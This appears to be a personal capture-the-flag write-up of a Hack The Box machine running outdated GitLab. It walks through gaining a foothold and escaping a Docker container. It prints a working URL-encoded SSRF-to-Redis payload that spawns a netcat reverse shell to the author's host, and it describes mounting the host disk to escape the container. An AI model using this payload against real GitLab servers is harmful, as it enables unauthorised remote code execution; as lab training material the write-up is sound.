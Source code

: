 # Ready

Ready

Monday, 21 February 2022

2:23 pm

This is a Linux machine.

The target IP is 10.10.10.220.

My IP is 10.10.16.9.

&#x20;

Nmap scan this thing first.

It determines two ports, a HTTP and SSH port.

&#x20;

!\[\[48\_Ready\_image001.png]]

&#x20;

Visiting the web page gives us this sign in page.

!\[\[48\_Ready\_image002.png]]

Interesting, so we have some kind of GitLab here, and there are few vulnerabilities for RCEs that involve authentication.

&#x20;

Seems that we have to sign in before doing anything. I tried to create an account with the password as 'password'.

&#x20;

!\[\[48\_Ready\_image003.png]]

From here it shows me a search button and gives me some form of GUI.

!\[\[48\_Ready\_image004.png]]

&#x20;

Seems that it displays the search query there. Within the help section, I found the version number of this.

&#x20;

!\[\[48\_Ready\_image005.png]]

Seems that it's outdated.

There are multiple different kinds of exploits for this version. However, I went with the manual method.

&#x20;

Watch [this video](https://www.youtube.com/watch?v=LrLJuyAdoAg\&feature=emb\_imp\_woyt) to understand how it works.

This is the same exploit that would be done.

So how this will be done is:

1. Click on new project
2. Import project.

!\[\[48\_Ready\_image006.png]]

1. Repo by URL.

!\[\[48\_Ready\_image007.png]]

&#x20;

1. Put this payload (be sure to cahnge the IP and port number.

> git://\[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%2010%2E10%2E16%2E9%209001%20%2de%20%2fbin%2fbash%20%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
>
> &#x20;

1. Create project and get a reverse shell.

> !\[\[48\_Ready\_image008.png]]

&#x20;

From here, we need to PE. But first, get the user flag which this user has access to.

&#x20;

Get linpeas into this and run it accordingly.

&#x20;

Here are some interesting things I saw:

!\[\[48\_Ready\_image009.png]]

&#x20;

{width="12.1875in" height="5.427083333333333in"}

This one points towards keys and stuff...?

&#x20;

!\[\[48\_Ready\_image0011.png]]

&#x20;

!\[\[48\_Ready\_image0012.png]]

There seem to be whole private keys given as well. But, I first wanted to check out these gitlab files.

&#x20;

I searched each file for passwords.

While In /opt, I came across the backup files, which contained this.

&#x20;

!\[\[48\_Ready\_image0013.png]]

&#x20;

I tried that password. Which actually worked LOL.

!\[\[48\_Ready\_image0014.png]]

Pwned...or so I thought.\
For some reason, there is no root.txt file...

!\[\[48\_Ready\_image0015.png]]

Odd...clearly this is intended or something.

Clearly, I'm not actually root of the entire file system. Perhaps I could be inside a mounted drive?

We need to check whether or not I'm inside of a docker or something.

&#x20;

Going back to my linpeas scan, I found these.

&#x20;

!\[\[48\_Ready\_image0016.png]]

That dockerenv kinda hints that we are mounted somehow.

There's a root pass however.

!\[\[48\_Ready\_image0017.png]]

&#x20;

I tried using SSH to access this machine root. It does not work.

I found out I could not access the root directory, so I can't even add my SSH key into the authorized\_keys.

&#x20;

Upon analysing the process list, I can see that there is no key processes. Take a look at the one I have on the machine and my Kali machine.

&#x20;

{width="7.8125in" height="2.8854166666666665in"}

&#x20;

!\[\[48\_Ready\_image0019.png]]

No essential services are present.

&#x20;

Hence we need to break out of this container somehow.

&#x20;

I identified that lsblk is the method used to check mounts. This is what I got.

&#x20;

{width="5.03125in" height="2.9166666666666665in"}

&#x20;

So sda2 looks like the main disk.

So let's mount that disk into a directory.

!\[\[48\_Ready\_image0021.png]]

&#x20;

From here, we should be able to get the root flag.

&#x20;

Now, I want to break out of this for good, because we are still stuck within this container.

We need to understand how docker works first.

!\[\[48\_Ready\_image0022.png]]

&#x20;

So we need to escape this docker somehow. [This website](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/) explains it pretty well.

This kind of works, and I get this.

&#x20;

!\[\[48\_Ready\_image0023.png]]

This would lead to a root shell!

Alright, time to move on.

&#x20;

Good box!
